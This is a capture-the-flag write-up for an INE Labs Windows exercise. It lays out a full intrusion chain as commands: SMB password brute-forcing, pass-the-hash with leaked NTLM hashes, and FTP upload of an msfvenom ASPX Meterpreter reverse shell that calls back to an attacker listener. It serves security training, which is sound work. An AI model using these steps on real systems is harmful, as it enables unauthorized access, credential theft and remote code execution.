# Exploitation CTF 2 — INE Labs

| Field      | Value              |
|------------|--------------------|
| Platform   | INE Labs           |
| OS         | Windows            |
| Difficulty | Easy               |
| Tags       | SMB, Metasploit brute force, NTLM hash cracking, smbmap, FTP, msfvenom ASPX, Meterpreter |

---

## Part 1 — Compromise user tom via SMB

### Reconnaissance & Brute Force

The hint stated that SMB user `tom` hadn't changed his password in a long time — a strong indicator of a weak, dictionary-crackable password.

Used the Metasploit `smb_login` scanner to brute force SMB authentication:

```bash
msfconsole -q
use auxiliary/scanner/smb/smb_login
set SMBUser tom
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set RHOSTS target.ine.local
set VERBOSE true
exploit
```



Result: `tom:felipe`

### SMB Enumeration as tom

Used smbmap to check tom's share permissions:

```bash
smbmap -H target.ine.local -u "tom" -p "felipe"
```



### Interactive SMB Session

Created an interactive Metasploit session as `tom`:

```bash
set CreateSession true
exploit
sessions        # check session ID
sessions -i 1   # enter session
```



Inside the session, listed shares and browsed their contents:

```bash
shares          # list available shares
shares -i <id>  # browse a share
```





Downloaded both files:

```bash
download flag1.txt
download leaked-hashes.txt
```



`leaked-hashes.txt` contained a collection of **NTLM hashes** from the system — the payload for Part 2.

---

## Part 2 — Compromise user nancy using NTLM hashes

The leaked NTLM hash list was used to brute force authentication for user `nancy`:

```bash
use auxiliary/scanner/smb/smb_login
set RHOSTS <IP>
set SMBUser nancy
set PASS_FILE /root/Documents/hash.txt   # NTLM hashes from leaked-hashes.txt
set CreateSession true
exploit
```

Nancy's session had access to the **ITResources** share — inaccessible to `tom`.



Inside ITResources: a second flag and credentials for user `david`, including the password `omnitrix_9901`.

### Enumerate david's permissions

```bash
smbmap -H <IP> -u "david" -p "omnitrix_9901"
```



David had no useful SMB write access but could connect via **FTP**.

### FTP Access as david

```bash
ftp <IP>
# User: david
# Password: omnitrix_9901
```



David had write access to a web-accessible directory via FTP — the Windows IIS web root.

### ASPX Reverse Shell via msfvenom

Generated a Meterpreter reverse shell in ASPX format (interpreted by the IIS/ASP.NET stack):

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.41.3 LPORT=4444 -f aspx -o shell.aspx
```

Uploaded via FTP:

```bash
ftp> put shell.aspx
```

Set up the handler in Metasploit:

```bash
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.41.3
set LPORT 4444
run
```

Triggered the shell by browsing to `http://<IP>/shell.aspx`.





---

## Key Takeaways

**NTLM pass-the-hash works with Metasploit's smb_login.** The `PASS_FILE` can contain NTLM hashes instead of plaintext passwords — Metasploit handles the authentication protocol natively. Leaked hash files from one compromised account frequently unlock others.

**FTP write access to IIS webroot = ASPX RCE.** IIS executes `.aspx` files. If FTP gives write access to the web root, uploading an ASPX shell and browsing to it gives immediate code execution in the IIS application pool context.

**Lateral movement follows permission differences.** `tom` couldn't access ITResources; `nancy` could. Each new account unlocks potentially different shares, directories, and services. Always re-enumerate after every credential gain.
